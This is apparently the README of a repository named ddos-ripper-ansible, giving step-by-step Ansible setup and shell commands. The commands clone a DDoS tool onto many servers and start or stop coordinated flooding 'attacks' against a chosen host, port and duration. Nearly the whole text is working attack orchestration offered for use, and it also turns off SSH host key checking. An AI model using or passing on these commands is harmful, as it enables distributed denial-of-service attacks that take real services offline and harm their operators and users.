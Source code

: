 **Usage:**

#1. Install python3 and Ansible*
```
sudo apt install python3 python3-pip
sudo -H pip3 install --upgrade pip
pip3 install ansible==2.9.7
```

Create ansible config file:
```
mkdir -p /etc/ansible
vim /etc/ansible/ansible.cfg

$ cat /etc/ansible/ansible.cfg
[defaults]
host_key_checking = False
callback_whitelist = profile_tasks
timeout = 300
command_warnings = False
[inventory]
[privilege_escalation]
[paramiko_connection]
[ssh_connection]
ssh_args = -C -o ControlMaster=auto -o ControlPersist=600s -o UserKnownHostsFile=/dev/null
control_path = /tmp/ansible-ssh-%%h-%%p-%%r
pipelining = True
[persistent_connection]
connect_timeout = 300
[accelerate]
[selinux]
[colors]
[diff]
```

Clone git repo:
```
mkdir -p /opt/git
cd /opt/git
git clone https://github.com/deadmopozz/ddos-ripper-ansible.git
```

#2. Prepare inventory /opt/git/ddos-ripper-ansible/inventory/hosts:
- add your hosts as follow:
```
[all]
#Add hosts to this group
host1      ansible_host=127.0.0.1
host2      ansible_host=127.0.0.2


[all:vars]
git_repo=https://github.com/palahsu/DDoS-Ripper.git
git_dest=/tmp/ddos-ripper


[group1]
host1

[group2]
host2
```

#3. Run playbook and start/stop attack:

##You must have the same username and password or ssh key for each server**

##If you use username and password for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK -e ansible_user=user_name
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>" -l group1,group2
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

##If you use ssh key for ssh authentication:
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible-playbook -i ../../inventory/hosts initial-setup.yml -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key"
```
### Start attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>"
```
### Start attack on one or several groups of hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-start.sh <host> <port> <duration>" -l group1,group2
```
### Stop attack on all hosts
```
cd /opt/git/ddos-ripper-ansible/playbooks/initial-setup
ansible all -i ../../inventory/hosts -b -kK -e ansible_user=user_name ansible_ssh_private_key_file="/path/to/your/ssh.key" -m shell -a "/tmp/ddos-ripper/ddos-ripper-stop.sh"
```

